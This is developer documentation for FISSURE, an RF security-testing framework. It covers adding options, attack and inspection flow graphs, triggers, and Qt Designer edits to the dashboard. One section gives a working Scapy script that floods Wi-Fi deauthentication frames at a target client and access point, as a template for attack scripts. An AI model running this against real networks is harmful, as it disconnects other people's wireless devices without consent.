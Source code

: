 ===========
Development 
===========

Adding Custom Options
=====================

**Options Dialog**

Bring up the options dialog in Qt Designer using the `designer` command and then open the *FISSURE/UI/options.ui* file. Click the arrows for the stacked widget (top right) to locate the table where the custom option will be inserted. Double-click on the table and add a new row with the name of the variable. Set the font size to match the other rows with the "Properties<<" button.

.. image:: /pages/Images/options.png

**default.yaml**

Open *FISSURE/YAML/User Configs/default.yaml* and insert the variable name and value (fft_size: 4096) for the new option.

**dashboard.py**

Access the variable in *dashboard.py* with: `int(self.dashboard_settings_dictionary['fft_size'])`.

Built With
==========

The following software tools are used to edit FISSURE.

**Read the Docs**

To regenerate the offline HTML RTD documentation:

.. code-block:: console

   $ cd ~/FISSURE/docs/RTD
   $ make clean && make html

**Git**

To add a new git submodule for repositories like GNU Radio out-of-tree modules:

.. code-block:: console

   $ git submodule add -b maint-3.8 https://github.com/someone/gr-something.git ./Custom_Blocks/maint-3.8/gr-something

To submit changes for FISSURE, clone the git repository with the SSH address to avoid errors when doing a push later on. Generate an SSH key and add it to your GitHub access settings.

**Qt Designer**

Python2 branch:

.. code-block:: console

   $ sudo apt-get install python-qt4 qt4-designer

Python3 branches:

.. code-block:: console

   $ sudo apt-get install -y build-essential qtcreator qt5-default

To launch: 

.. code-block:: console

   $ designer

**Grip**

Python2 branch:

.. code-block:: console

   $ sudo python2 -m pip install grip

Python3 branches:

.. code-block:: console

   $ sudo python3 -m pip install grip

To convert markdown to html (requires Internet connection): 

.. code-block:: console

   $ grip README.md --export README.html
   
Attack Flow Graphs
==================

**Flow Graph Configuration**

A new Python file is generated each time a .grc file is executed in GNU Radio Companion. The format of this auto-generated Python file is used by FISSURE to perform actions like: displaying variable names, starting attacks, changing values for a running flow graph, etc. Editing the Python file may cause FISSURE to not function properly.

*GUI vs. No GUI*

Flow graphs are called differently depending on if there is a GUI or not. Flow graphs configured to "No GUI" mode in the "Options" block will be loaded as a Python module prior to runtime and then modify the default variables. The standard start(), wait(), and stop() commands are applied in this case.

Flow graphs with GUIs have their Python files called directly and behave similarly to inspection flow graphs (See *Help>>Inspection Flow Graphs*). Variables can be changed from the GNU Radio GUI in the form of GUI widgets or as command line arguments from parameter blocks. 

*Options Block (No GUI)*

Within the "Options" block:

- "ID" must match the file name
- "Generate Options" must be set to "No GUI"

*Special Variables*

The Dashboard populates certain flow graphs variable names like "ip_address" and "serial" to match the values in the Attack hardware button. These variables must be named correctly in the flow graph to be populated automatically and handled as intended. Refer to other attack flow graphs as examples for how these variables should be utilized.

*Numerical Strings*

To help specify that a string variable containing only numerical values is indeed a string and should not to be interpreted as a float, a new variable named "string_variables" can be added to the flow graph. Its value must be a list with the names of the variables to be considered as exceptions: ["variable_name"]

For example:

.. image:: /pages/Images/string_variables.png

**Uploading Attack Flow Graph**

Attack flow graphs can be added to FISSURE within the *Library>Add* tab by selecting a protocol and choosing "Attack". Attacks will be visible within the Attack tree if the "Attack Template Name" is entered properly.

Attack Python Scripts
=====================

**Creating Python Scripts**

Non-GNU Radio attacks can be added to the FISSURE library by uploading specially configured Python (.py) files. A function is needed within the Python script to identify which variables can be modified in the FISSURE Dashboard (`getArguments()`). Those variables are used by the system as command line arguments during execution of the script. All FISSURE branches accept both Python2 and Python3 attack scripts.

FISSURE will parse a variable named "run_with_sudo" set to True or False and set the "Run with sudo" checkbox upon loading the attack in the Single-Stage Attack tab. For multi-stage attacks, this variable is listed in the generated tables and its value is used to run the script with or without sudo. If no variable is found, then Python scripts will rely on the checkbox for single-stage attacks and be run with sudo for multi-stage attacks.

Variables with filepath in their name will automatically generate a file navigation button for tables inside FISSURE. If the filepath contains "/FISSURE/", the string will be split and appended to the user's location for FISSURE. This is to make configuring an attack easier by accounting for the current username in filepaths.

*Scapy Example*

The following example uses Scapy to send multiple deauthentication frames from a wireless interface. Use the code as a reference for creating future Python scripts. 

.. code-block:: python

    from scapy.all import Dot11,Dot11Deauth,RadioTap,sendp
    import os, sys

    #################################################
    ############ Default FISSURE Header ############
    #################################################
    def getArguments():
        client = '00:11:22:33:44:55'        # Target MAC address
        bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
        iface = 'wlan0'	                    # Wireless interface name 
        channel = 1                         # Wireless channel
        interval = 0.01                     # Scapy interval
        arg_names = ['client','bssid','iface','channel','interval']
        arg_values = [client, bssid, iface, channel, interval]

        return (arg_names,arg_values)


    if __name__ == "__main__":

        # Default Values
        client = '00:11:22:33:44:55'        # Target MAC address
        bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
        iface = 'wlan0'                     # Wireless interface name 
        channel = '1'                       # Wireless channel
        interval = '0.01'                   # Scapy interval

        # Accept Command Line Arguments
        try:
            client = sys.argv[1]
            bssid = sys.argv[2]
            iface = sys.argv[3]
            channel = sys.argv[4]
            interval = sys.argv[5]
        except:
            pass

    #################################################
    
        # Create Frame
        packet = RadioTap()/Dot11(type=0, subtype=12, addr1=client, addr2=bssid, addr3=bssid)/Dot11Deauth(reason=7)

        # Set Monitor Mode and Channel
        os.system("sudo ifconfig " + iface + " down") 
        os.system("sudo iwconfig " + iface + " mode monitor") 
        os.system("sudo ifconfig " + iface + " up") 
        os.system("sudo iwconfig " + iface + " channel " + channel) 
	
        # Send Frame  
        sendp(packet, iface=iface, inter=float(interval), loop=1)

**Uploading Attack Files**

Python files can be uploaded to FISSURE within the *Library>>Add* tab by choosing a protocol and selecting "Attack". The file type must be set to "Python2 Script" or "Python3 Script" and the file must have a valid .py extension. Attacks added to the library and named with a proper "Attack Template Name" will immediately show up in the Attack tree widget.
   
Inspection Flow Graphs
======================

Inspection flow graphs can be added to FISSURE to perform frequently used analysis on live streams from SDRs or directly on prerecorded data files. Flow graph Python files (.py) are called directly with Python2/3 and use the GNU Radio "parameter" block as arguments to the Python call. This enables variables found in blocks that do not utilize callbacks (like IP address or serial number) to be changed prior to runtime. The following are instructions for creating a new inspection flow graph within the *IQ Data>>Inspection* tab.

.. image:: /pages/Images/inspection1.png

**Location**

Inspection flow graphs must be placed in the */FISSURE/Flow Graph Library/Inspection Flow Graphs/* or */FISSURE/Flow Graph Library/Inspection Flow Graphs/File/* directories. Refer to other inspection flow graphs as examples when creating new flow graphs. 

**library.yaml**

The names of inspection flow graphs are assigned to Python files within the *library.yaml* file. Assign names under the applicable hardware type or under "File" if the new flow graph will be used on IQ files. 

.. code-block:: console

    Inspection Flow Graphs:
         802.11x Adapter:
         - None
         Computer:
         - None
         File:
         - instantaneous_frequency.py
         - signal_envelope.py
         - waterfall.py
         HackRF:
         - instantaneous_frequency_hackrf.py
         - signal_envelope_hackrf.py
         - time_sink_hackrf.py
         - time_sink_1_10_100_hackrf.py
         - waterfall_hackrf.py

**GNU Radio**

The following are helpful tips for configuring the GNU Radio flow graph:

- The "Options" block ID must match (without the extension) what is entered in the *library.yaml* file
- Keep the parameter blocks as a string type and apply conversions within other blocks
- Add "QT GUI Chooser" blocks for variables that will be changed during runtime such as frequency and sample rate. Fill out the GUI Hints to make it look nice.
- Follow examples of other flow graphs on how to configure device/IP addresses, serial numbers, and similar arguments for SDR blocks. This will allow FISSURE-specific features like the IQ hardware button to pass information into the flow graph properly.
- Parameter blocks will replace '_' with '-' when using variables names as command line arguments for the flow graph Python call (FISSURE will handle this)
- Enter filepath and sample rate as "filepath" and "sample_rate" in GNU Radio variable names

**Dashboard**

Double-click/load an IQ file in the IQ Data tab Data Viewer and enter sample rate and frequency information prior to loading a file-based inspection flow graph. These values will automatically copy over to the table if available.

Modifying Dashboard
===================

This guide will provide examples on how to add GUI elements to the FISSURE Dashboard and interact with those elements within the Dashboard.py code.

QtDesigner
----------

Launch QtDesigner with the `designer` command and open the */FISSURE/UI/dashboard.ui* file.

.. image:: /pages/Images/qtdesigner.png

**Creating New Widgets**

Frequently used widgets:

- Push Button
- Text Edit
- Combo Box
- Check Box
- Label
- Frame
- Spin Box
- Double Spin Box
- Horizontal Slider
- Table Widget
- Tab Widget
- Stacked Widget
- Tree Widget
- Group Box
- Progress Bar
- List Widget

Drag widgets onto the Dashboard and modify their property values in the Property Editor. 

It is suggested to use an objectName consistent with the FINDINGS naming convention: \_widget-type\_tab-location\_description_ (e.g. pushButton\_automation\_manual, textEdit\_iq\_timeslot\_input)

Menu items can be added by clicking "Type Here" in any of the menus/submenus and entering text. Separators can be added by clicking "Add Separator" and then dragged or by right clicking and clicking "Insert Separator". Submenus can be added by clicking the right side of any menu item.

**Styling Widgets**

Many labels and frames use stylesheets. Stylesheets can be applied to all widgets sharing the same type or only to specific widgets. Each widget has their own unique properties that can be customized. If possible, avoid setting the stylesheets in the *dashboard.py* code to better manage and organize the stylesheets.

Tab Widget Example 1:

.. code-block:: console

    #tabWidget > QTabBar::tab {
        width: 132px; 
        height:27px;
        margin-top: 0px;
    }

    #tabWidget > QTabBar::tab:!selected {
        margin-top: 6px;
        height: 21px;
        width: 132px; 
    }

    QTabBar::tab:disabled {
        background-color: qlineargradient(spread:pad, x1:0, y1:0, x2:0, y2:1, stop:0 #eeeeee, stop:0.12 #888888, stop:0.3 #666666,   stop:0.85 #444444, stop:1 #444444);
        border: 1px solid #444444;
        color: rgb(150, 150, 150);
    }

    QTabWidget::pane { 
        border: 1px solid #17365D;
    }

    QTabBar::tab {
        qproperty-alignment: AlignCenter;
        border-top-left-radius: 15px;
        border-top-right-radius: 15px;
        background-color: qlineargradient(spread:pad, x1:0, y1:0, x2:0, y2:1, stop:0 #e7eaee, stop:0.12 #455e7d, stop:0.3 #2e4a6d,   stop:0.85 #17365D, stop:1 #17365D);
        border: 1px solid #17365D;
        color:rgb(0, 220, 0);
        font: bold 10pt "Ubuntu";
        margin-right:1px;
        width: 132px;
        height:22px;
        margin-top: 3px;
    }

    QTabBar::tab:!selected {
        margin-top: 7px;
        height: 18px;
        color: rgb(255, 255, 255);
    }

Tab Widget Example 2:

.. code-block:: console

    #tabWidget_3 > QTabBar::tab{width:110px}

Label Example 1:

.. code-block:: console

    QLabel#label_294 {
        qproperty-alignment: AlignCenter;
        border: 1px solid #17365D;
        border-top-left-radius: 15px;
        border-top-right-radius: 15px;
        background-color: qlineargradient(spread:pad, x1:0, y1:0, x2:0, y2:1, stop:0 #e7eaee, stop:0.12 #455e7d, stop:0.3 #2e4a6d,   stop:0.85 #17365D, stop:1 #17365D);
        padding: 0px 0px;
        color: rgb(255, 255, 255);
        max-height: 20px;
        font: bold 10pt "Ubuntu";
    }

Frame Example 1:

.. code-block:: console

    QFrame#frame_9 {
        background-color: rgb(251, 251, 251);
        border: 1px solid #17365D;
        border-bottom-left-radius: 15px;
        border-bottom-right-radius: 15px;
    }

Push Button Example 1:

.. code-block:: console

    #pushButton_top_tsi{
        color: rgb(0, 0, 0,);
        padding: 45px 0px 0px 92px;
        background-color: qradialgradient(cx: 0.3, cy: -0.4, fx: 0.3, fy: -0.4, radius: 1.35, stop: 0 rgba(255, 255, 255,50), stop: 1 rgba(100, 100, 100,50));
        border-style: outset;
        border-width: 2px;
        border-radius: 10px;
        /*border-color: #152947;*/
        border-color:  #17365D;
    }

    #pushButton_top_tsi:hover{
        background-color: qradialgradient(cx: 0.3, cy: -0.4, fx: 0.3, fy: -0.4, radius: 1.35, stop: 0 rgba(255, 255, 255,50), stop: 1 rgba(170, 170, 170,50));
    }

    #pushButton_top_tsi:pressed{
        background-color: qradialgradient(cx: 0.3, cy: -0.4, fx: 0.3, fy: -0.4, radius: 1.35, stop: 0 rgba(255, 255, 255,50), stop: 1 rgba(100, 100, 100,50));	
        padding: 47px -2px 0px 92px;
    }

dashboard.py
------------

Any widget in the Dashboard can be referenced with `self.objectName`.

The following are frequently called public functions for the widgets in FISSURE:

.. code-block:: console
    
    # Push Button
    self.pushButton_name.text()
    self.pushButton_name.setText("Text")
    self.pushButton_name.setEnabled(False)
    self.pushButton_name.setVisible(True)

    # Text Edit
    str(self.textEdit_name.toPlainText())
    self.textEdit_name.setPlainText("Text")

    # Combo Box
    str(self.comboBox_name.currentText())
    self.comboBox_name.clear()
    self.comboBox_name.addItem(get_dissector)
    self.comboBox_name.addItems(get_packet_types)
    self.comboBox_name.setCurrentIndex(0)
    self.comboBox_name.currentIndex(0)

    # Check Box
    self.checkBox_name.isChecked()
    self.checkBox_name.setChecked(False)

    # Label
    self.label_name.text()
    self.label_name.setText(get_samples)
    self.label_name.setPixmap(QtGui.QPixmap(os.path.dirname(os.path.realpath(__file__)) + "/docs/Icons/USRP_X310.png")) 

    # Frame
    self.frame_name.pos()
    self.frame_name.geometry()

    # Spin Box/Double Spin Box
    self.spinBox_name.value()
    self.spinBox_name.setValue(10)
    self.spinBox_name.setMaximum(35)
    self.spinBox_name.setMinimum(0)

    # Horizontal/Vertical Slider
    self.horizontalSlider_name.setMinimum(int(win_min))
    self.horizontalSlider_name.setMaximum(int(win_max))
    self.horizontalSlider_name.setValue(int(win_min)) 
    self.horizontalSlider_name.setSliderPosition(2)

    # Table Widget
    self.tableWidget_name.rowCount()
    self.tableWidget_name.columnCount()
    self.tableWidget_name.setColumnCount(1)
    self.tableWidget_name.setRowCount(0)
    self.tableWidget_name.removeRow(1)
    self.tableWidget_name.removeColumn(5)
    self.tableWidget_name.insertRow(0)
    self.tableWidget_name.currentRow() 
    self.tableWidget_name.clearContents()
    self.tableWidget_name.resizeRowsToContents()                   
    self.tableWidget_name.resizeColumnsToContents()    
    self.tableWidget_name.setColumnWidth(4,130)
    self.tableWidget_name.horizontalHeader().setResizeMode(2,QtGui.QHeaderView.Stretch)  
    self.tableWidget_name.horizontalHeader().setStretchLastSection(True)                
    self.tableWidget_name.verticalHeaderItem(0).text()
    self.tableWidget_name.setHorizontalHeaderItem(1,QtGui.QTableWidgetItem(""))
    self.tableWidget_name.item(0,5).text()
    self.tableWidget_name.setCurrentCell(self.tableWidget_name.currentRow()-1,0)
    table_item = self.tableWidget_name.takeItem(self.tableWidget_name.currentRow()-1,0)
    table_item = QtGui.QTableWidgetItem(str(657))  # from PyQt4 import QtCore, QtGui, uic
    table_item.setTextAlignment(QtCore.Qt.AlignCenter)
    table_item.setFlags(table_item.flags() & ~QtCore.Qt.ItemIsEditable)
    self.tableWidget_name.setItem(0,0,table_item) 
    self.tableWidget_name.item(row,4).setFlags(self.tableWidget_name.item(row,4).flags() ^ QtCore.Qt.ItemIsEnabled)
    self.tableWidget_name.cellWidget(0,4).currentText()
    self.tableWidget_name.cellWidget(1,0).isChecked()
    self.tableWidget_name.cellWidget(row,0).isEnabled()
    self.tableWidget_name.cellWidget(row,0).setCurrentIndex(1)
    self.tableWidget_name.setCellWidget(0,0,new_button)                

    new_checkbox = QtGui.QCheckBox("",self)
    new_checkbox.setStyleSheet("margin-left:17%")
    self.tableWidget_name.setCellWidget(n,0,new_checkbox)

    new_pushbutton = QtGui.QPushButton(self.table_list[n])
    new_pushbutton.setText("Guess")
    new_pushbutton.setFixedSize(64,23)
    self.tableWidget_name.setCellWidget(self.tableWidget_name.rowCount()-1,1,new_pushbutton)
    new_pushbutton.clicked.connect(lambda: self._slotGuessInterfaceTableClicked(get_value))

    # Tab Widget
    self.tabWidget_name.currentIndex()
    self.tabWidget_name.setCurrentIndex(4)
    self.tabWidget_name.tabText(self.tabWidget_name.currentIndex())
    self.tabWidget_name.setTabText(0,"Detector")
    self.tabWidget_name.setTabToolTip(1,"Target Signal Identification")
    self.tabWidget_name.setTabEnabled(2,False)
    self.tabWidget_name.count()
    self.tabWidget_name.removeTab(1)
    new_tab = QtGui.QWidget()       
    vBoxlayout  = QtGui.QVBoxLayout()
    vBoxlayout.addWidget(self.table_name)
    new_tab.setLayout(vBoxlayout)   
    self.tabWidget_name.addTab(new_tab,"text")  
    get_table = self.tabWidget_name.children()[0].widget(n).children()[1]  # TabWidget>>StackedLayout>>Tab>>Table

    # Stacked Widget
    self.stackedWidget_name.currentIndex()
    self.stackedWidget_name.setCurrentIndex(1)
    self.stackedWidget_name.count()

    # Tree Widget
    self.treeWidget_name.currentItem().text(0) 
    self.treeWidget_name.setCurrentItem(self.treeWidget_name.topLevelItem(0))
    new_item = QtGui.QTreeWidgetItem()
    new_item.setText(0,"text")
    new_item.setDisabled(True)
    self.treeWidget_name.addTopLevelItem(new_item)
    self.treeWidget_name.clear()
    self.treeWidget_name.setHeaderLabel("text")
    self.treeWidget_name.invisibleRootItem()  
    self.treeWidget_name.collapseAll()   
    self.treeWidget_name.expandAll() 
    self.treeWidget_name.findItems("text",QtCore.Qt.MatchExactly|QtCore.Qt.MatchRecursive,0)[0].setDisabled(False)
    self.treeWidget_name.findItems("text",QtCore.Qt.MatchExactly|QtCore.Qt.MatchRecursive,0)[0].setHidden(False)
    iterator = QtGui.QTreeWidgetItemIterator(self.treeWidget_name)
    while iterator.value():
        item = iterator.value()
        if item.text(0) in self.pd_library['Attack Categories']:
            item.setFont(0,QtGui.QFont("Times", 11, QtGui.QFont.Bold))                    
        iterator+=1      

    # Group Box    
    self.groupBox_name.setVisible(False)
    self.groupBox_name.setEnabled(False)

    # Progress Bar
    self.progressBar_name.hide() 
    self.progressBar_name.show()      
    self.progressBar_name.setMaximum(100)
    self.progressBar_name.setValue(10)

    # List Widget
    self.listWidget_name.setCurrentRow(0)
    get_index = self.listWidget_name.currentRow()
    self.listWidget_name.count()
    get_text = str(self.listWidget_name.item(row).text())
    self.listWidget_name.addItem(preset_name)
    self.listWidget_name.addItems(modulation_list)
    for item in self.listWidget_name.selectedItems()
    self.listWidget_name.takeItem(self.listWidget_name.row(item))
    self.listWidget_name.clear()

The `_connectSlots()` function in *dashboard.py* is used to assign functions to widget actions. Group the signal/slot assignments for widgets by their type and the tab they reside in.

The following are examples to link new widgets to new functions in the *MainWindow* class.

.. code-block:: console

    # Push Buttons
    self.pushButton_tsi_clear_SOI_list.clicked.connect(self._slotTSI_ClearSOI_ListClicked)
    self.pushButton_pd_dissectors_construct.clicked.connect(lambda: self._slotPD_DissectorsConstructClicked(preview = False))

    # Check Boxes 
    self.checkBox_automation_receive_only.clicked.connect(self._slotAutomationReceiveOnlyClicked)

    # Combo Boxes
    self.comboBox_tsi_detector.currentIndexChanged.connect(self._slotTSI_DetectorChanged)

    # Radio Buttons
    self.radioButton_library_search_binary.clicked.connect(self._slotLibrarySearchBinaryClicked)

    # Double Spin Boxes
    self.doubleSpinBox_pd_bit_slicing_window_size.valueChanged.connect(self._slotPD_BitSlicingSpinboxWindowChanged)

    # Horizontal Sliders
    self.horizontalSlider_pd_bit_slicing_preamble_stats.valueChanged.connect(self._slotPD_BitSlicingSliderWindowChanged)

    # Table Widgets   
    self.tableWidget_automation_scan_options.cellChanged.connect(self._slotAutomationLockSearchBandClicked) 
    self.tableWidget_pd_bit_slicing_lengths.itemSelectionChanged.connect(self._slotPD_BitSlicingLengthsChanged)
    self.tableWidget_pd_bit_slicing_candidate_preambles.cellDoubleClicked.connect(self._slotPD_BitSlicingCandidateDoubleClicked)
    self.tableWidget_pd_bit_slicing_packets.horizontalHeader().sectionClicked.connect(self._slotPD_BitSlicingColumnClicked)  

    # Labels
    self.label_iq_end.mousePressEvent = self._slotIQ_EndLabelClicked

    # List Widgets
    self.listWidget_library_gallery.currentItemChanged.connect(self._slotLibraryGalleryImageChanged)
    self.listWidget_library_browse_demod_fgs.itemClicked.connect(self._slotLibraryBrowseDemodFGsClicked)
    self.listWidget_iq_inspection_flow_graphs.itemDoubleClicked.connect(self._slotIQ_InspectionFlowGraphClicked)

    # Text Edits
    self.textEdit_iq_start.textChanged.connect(self._slotIQ_StartChanged)

    # Tree Widgets
    self.treeWidget_attack_attacks.itemDoubleClicked.connect(self._slotAttackTemplatesDoubleClicked)

    # Menu Items
    self.actionAll_Options.triggered.connect(self._slotMenuOptionsClicked)

    # Tab Widgets
    self.tabWidget_tsi.currentChanged.connect(self._slotTSI_TabChanged)

    # List Widget
    self.listWidget_options.currentItemChanged.connect(self._slotOptionsListWidgetChanged)
    self.listWidget_library_browse_attacks3.itemClicked.connect(self._slotLibraryBrowseAttacksClicked)
    self.listWidget_pd_flow_graphs_recommended_fgs.itemDoubleClicked.connect(self._slotPD_DemodulationLoadSelectedClicked)  

    # Custom Signals 
    self.connect(self, self.signal_PD_Offline, self._slotPD_Offline)

To avoid threading issues in FISSURE's event listener, custom signals can be issued from within the thread to slots located in the Dashboard.

.. code-block:: console

    self.signal_PD_Offline = QtCore.SIGNAL("pdOffline")               # Defined in Dashboard
    self.connect(self, self.signal_PD_Offline, self._slotPD_Offline)  # Defined in Dashboard
    self.emit(self.signal_PD_Offline)                                 # Issued in thread

Connected slots/functions are appended to the class.

.. code-block:: console

    def _slotIQ_ConvertClicked(self):
        """ Converts the original file to a new data type.
        """
        # Get Values
        print "text"

**Generic Input Dialogs**

Text Edit:

.. code-block:: console

    text, ok = QtGui.QInputDialog.getText(self, 'Rename', 'Enter new name:',QtGui.QLineEdit.Normal,get_file)
    if ok:
        print text


ComboBox:

.. code-block:: console

    # Open the Band Chooser Dialog
    new_label_text = "Choose 4G Band"
    new_items = ['2', '3', '4', '5', '7', '12', '13', '14', '17', '20', '25', '26', '29', '30', '40', '41', '46', '48', '66', '71']
    chooser_dlg = MiscChooser(parent=self, label_text=new_label_text, chooser_items=new_items)
    chooser_dlg.show()
    chooser_dlg.exec_() 

    # Run the Script
    get_value = chooser_dlg.return_value
    if len(get_value) > 0:   
        print get_value

Folder:

.. code-block:: console

    # Choose Folder
    get_dir = str(QtGui.QFileDialog.getExistingDirectory(self, "Select Directory"))
    if len(get_dir) > 0:            
        print get_dir

Open File:

.. code-block:: console

    # Choose File
    fname = QtGui.QFileDialog.getOpenFileName(None,"Select IQ File...", default_directory, filter="All Files (*)")
    if fname != "":
        print fname

Save File:

.. code-block:: console

    # Choose File
    fname = QtGui.QFileDialog.getSaveFileName(None,"Select File...", default_directory, filter="All Files (*)")
    if fname != "":
        print fname

Error Message:

.. code-block:: console

    self.errorMessage("Flow Graph was not Found in PD Flow Graph Library!")

Message Box:

.. code-block:: console

    msgBox = MyMessageBox(my_text = " Choose an IQ file.", height = 75, width = 140)
    msgBox.exec_() 


Creating Triggers
=================

There are four major steps in creating a new trigger for use in single-stage attacks, multi-stage attacks, archive replay, and autorun playlists: building the Python script, adding widgets to .ui file in QtDesigner, updating the Triggers Dialog slots, and adding information to the FISSURE library.yaml file.

**Scripting**

For the moment, triggers consist of a Python3 file that accepts input arguments provided by the FISSURE Dashboard and loops until a condition is satisfied. Trigger scripts can call secondary programs like GNU Radio flow graphs and monitor output such as text printed to stdout. A value of 0 is returned if the trigger is successful and -1 if an error was caught. Two examples of trigger scripts are provided below. The first waits until a specific time and the second reads text produced from a flow graph.

.. code-block:: python

    # Choose File
    import time
    from dateutil import parser
    import sys

    def main():
        # Accept Command Line Arguments
        try:
            trigger_time = sys.argv[1]
            trigger_time = parser.parse(trigger_time).timestamp()
        except:
            print("Error accepting trigger time argument. Exiting trigger.")
            return -1

        while time.time() < trigger_time:
            time.sleep(.1)
            
        return 0

    if __name__ == "__main__":
        main()

.. code-block:: python

    # Choose Fileimport sys
    import time
    import subprocess
    import os

    def main():
        # Accept Command Line Arguments
        try:
            hardware = str(sys.argv[1])
            matching_text = str(sys.argv[2])
            #matching_text = "Bits: 01100000100111110000000011111111"
        except:
            print("Error accepting X10 demod arguments. Exiting trigger.")
            return -1

        # Choose the Flow Graph
        if "USRP B2x0" in hardware:
            filepath = os.path.dirname(os.path.realpath(__file__)) + "/X10_OOK_USRPB2x0_Demod.py"
        else:
            return -1
            
        # Start the Flow Graph
        process = subprocess.Popen(["python3", filepath], stdout=subprocess.PIPE, universal_newlines=True)
    
        # Iterate over stdout to print the output in real-time
        try:
            for line in iter(process.stdout.readline, ''):
                print(line, end='')  # Print the line without adding additional newline

                # Check if the match_text is present in the output
                if matching_text in line:
                    print("Match found in stdout. Exiting both programs.")
                    process.terminate()
                    return 0
            process.stdout.close()
            process.wait()
        finally:
            pass
        
    if __name__ == "__main__":
        main()

**QtDesigner**

To add a new trigger to the Trigger Options window, first open the triggers.ui file in QtDesigner. Second, insert a new page into the stacked widget and add widgets for user input. Refer to previous pages for examples and be mindful of the start of objectNames adhering to the stylesheet formatting.

**Triggers Dialog Slots**

The TriggersDialogSlots.py file needs to be updated for a new trigger to handle initialization, populating default values, and formatting accepted parameters. Modify these functions and follow the existing triggers for examples: _slotTriggerChanged(), _slotAddClicked(). Custom slots for widgets can be created but need to be connected in TriggersDialog.py

**Library**

The library.yaml file stores the default values for triggers and the names/locations of the Python3 scripts that are executed. The following is an example entry into the Triggers dictionary in library.yaml.

.. code-block:: console

    Triggers:
        Acoustic:
            Sound Threshold:
                Default Settings:
                        Duration: '0.1'
                        Sample Rate: '44100'
                        Threshold: '0.2'
                File: sound_threshold.py
                Type: Python3 Script